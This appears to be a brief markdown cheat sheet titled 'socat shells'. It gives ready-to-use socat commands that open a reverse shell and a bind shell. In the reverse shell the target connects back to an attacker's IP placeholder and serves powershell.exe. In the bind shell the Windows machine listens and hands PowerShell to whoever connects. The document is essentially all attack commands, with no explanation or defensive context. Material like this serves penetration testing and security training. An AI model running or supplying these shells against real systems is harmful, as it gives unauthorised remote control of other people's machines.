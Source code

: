 # socat shells

## Reverse shell:

```bash
# listener on attacking machine.
socat TCP-L:<port> -

# connector on target machine
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```

## Bind Shell:

```bash
# windows listener
socat TCP-L:<PORT> EXEC:powershell.exe,pipes

# connect to listener using attacking machine.
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```
